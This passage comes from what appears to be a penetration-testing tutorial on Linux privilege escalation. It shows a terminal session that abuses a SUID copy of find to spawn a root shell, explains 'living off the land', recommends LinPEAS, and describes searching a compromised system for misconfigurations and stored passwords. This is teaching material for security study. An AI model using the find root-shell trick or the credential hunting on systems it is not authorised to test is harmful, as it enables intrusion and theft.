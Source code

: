 ```bash
┌─[rin@parrot]─[~/boxes/book/test]
└──╼ $sudo install -m =xs $(which find) .
[sudo] password for rin:
┌─[rin@parrot]─[~/boxes/book/test]
└──╼ $./find . -exec /bin/sh -p \; -quit
# whoami
root
# id
uid=1000(rin) gid=1000(rin) euid=0(root) egid=0(root) groups=0(root),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),118(debian-tor),124(bluetooth),140(scanner),1000(rin)
#
```

This type of exploit is called living of the land \(LoTL\) as we are exploiting tools and applications that are already on the system and not having to install bespoke software that might get picked up by AV software or other software monitoring for unusual activity.

## Linux Enumeration

One of the easiest things to do to enumerate a system after gaining access is to run a script file like PEAS \(Privilege Escalation Awesome Scripts\) \(https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite\). This checks for an extensive, but not necessarily exhaustive, list of potential vulnerabilities. It produces a great deal of output that is colour coded and references explanations of its findings on the GitHub site HackTricks \(https://book.hacktricks.xyz/linux-unix/privilege-escalation\#path\).

Going through each of the specific things that LinPEAS checks will be too extensive and so we will not go through each step but focus on the main general areas that could be done manually as well. The basic principles however is to run through an enumeration process that is looking for vulnerabilities, including misconfigurations that are exploitable and any information that we can use for both further access and exploitation or simply information that is of value from the target.

The enumeration will aim to understand the system that you have access to in detail including, the physical characteristics, network, software that is running on it, including system software. As with remote access, we are looking for vulnerabilities related to software versions that we can exploit because we have local access. The same rules apply as before, depending on whether we actually have the user's password and are able to exploit authenticated vulnerabilities as well as unauthenticated ones. Whilst doing this, we are going to pay specific attention to potential misconfigurations that can be exploited such as execution paths that allow scripts and binaries to be run as part of the normal processing on the system. User privileges that allow execution of administrative commands such as sudo, installing or running services, etc

At the same time, we are searching for information that might be accessible and useful, including but not limited to, usernames and passwords. This might be in documents, configuration files and databases.

Looking for information

The file layout of a Linux \(or \*nix\) machine is usually of the format

```text
/bin -> usr/bin
/boot
/dev
/etc
/home
/lib -> usr/lib
/media
/mnt
/opt
/proc
/root
/run
/sandbox
/sbin -> usr/sbin
```